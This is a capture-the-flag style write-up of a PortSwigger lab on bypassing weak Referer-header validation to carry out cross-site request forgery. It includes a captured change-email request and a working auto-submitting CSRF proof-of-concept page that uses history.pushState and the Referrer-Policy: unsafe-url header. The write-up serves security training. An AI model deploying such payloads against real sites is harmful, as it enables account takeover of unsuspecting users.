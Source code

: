 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0f956d77-ffc7-464c-ada5-9e501a0ec626)


## Overview :

Validation of Referer can be circumvented

Some applications validate the Referer header in a naive way that can be bypassed. For example, if the application validates that the domain in the Referer starts with the expected value, then the attacker can place this as a subdomain of their own domain:
http://vulnerable-website.com.attacker-website.com/csrf-attack

Likewise, if the application simply validates that the Referer contains its own domain name, then the attacker can place the required value elsewhere in the URL:
http://attacker-website.com/csrf-attack?vulnerable-website.com

>  Although you may be able to identify this behavior using Burp, you will often find that this approach no longer works when you go to test your proof-of-concept in a browser. In an attempt to
>  reduce the risk of sensitive data being leaked in this way, many browsers now strip the query string from the Referer header by default.
>  
>  You can override this behavior by making sure that the response containing your exploit has the `Referrer-Policy: unsafe-url` header set (n**ote that Referrer is spelled correctly in this case,
>  just to make sure you're paying attention!**). This ensures that the full URL will be sent, including the query string. 

## Solution :

Log in as wiener using the credentials - `wiener:peter`

We get this page to update email.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0120a0f3-69b6-40fa-a27e-93d8960a0944)

When we click update email, browser sends a request like this,

```http
POST /my-account/change-email HTTP/2
Host: 0a1c0080040de829801c712900d600a9.web-security-academy.net
Cookie: session=Axf9Yo6ZjuM9B0wD9vACJtH46iM0ASK1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0a1c0080040de829801c712900d600a9.web-security-academy.net
Referer: https://0a1c0080040de829801c712900d600a9.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=test%40test.com
```
Here the application verifies the request by comparing the `Host:` and `Referer` header.

Our goal is to bypass this referrer header validation . We need to be able to somehow place the attacker domain ie.(exploit server) in the referrer header 

- Exploit server domain - **exploit-0acd00e30437e84180cd7051010b004e.exploit-server.net**


#### Check which portion of the referer header is the application validating


Lets us give the attacker domain in the referer header by giving the attacker.com as the domain name and the original domain as a directory portion.


```http
Referer: https://attacker-domain.com/?0a1c0080040de829801c712900d600a9.web-security-academy.net/my-account
```

We get a `301 Redirect`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/707ed98c-6432-44eb-bf19-214bd3aac9e9)

> This means the application takes this referer header and instead of validating the entire referer header , it just checks if the domain name in HOST header is contained in the referer header.
> This is done with the help of some regex matching (**expected-domain**) .


**Generate POC -**

Replace the attacker domain with exploit server domain. Send the request to POC generator,

> Add the `Auto-submit script`

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/?0a8e002d049ccb2281e49d8f00ae00ed.web-security-academy.net')</script>
    <form action="https://0a8e002d049ccb2281e49d8f00ae00ed.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="user&#64;user&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

**Explanation of PUSHSTATE -**

> `history.pushState('', '', '/?0a8e002d049ccb2281e49d8f00ae00ed.web-security-academy.net')`
> 1. This line calls the **pushState() method** on the history object, which is part of the browser's window object. It **allows you to manipulate the browser's history stack, including the URL**.
> 2. The pushState() method takes three parameters: **state, title, and URL**.
>
> In this case, the first parameter (state) is an empty string, which means **there is no specific state associated with the URL change**.
> The second parameter (title) is also an empty string, which means the **document title remains unchanged**.
> The third parameter (URL) is set to /?0a8e002d049ccb2281e49d8f00ae00ed.web-security-academy.net.
>
> This **modifies the URL of the current webpage to /?0a8e002d049ccb2281e49d8f00ae00ed.web-security-academy.net without triggering a page reload**.

If we send this POC to victim, the lab is not solved. Reason being that  modern browsers now strip the query string from the Referer header by default.

We can override this by providing `Referrer-Policy: unsafe-url` header.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5371d3da-4152-4027-b71f-40368e4c1235)

Now deliver the exploitto victim to solve the lab.


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cd8488ee-3824-43a9-8834-b8a1a8231f43)




















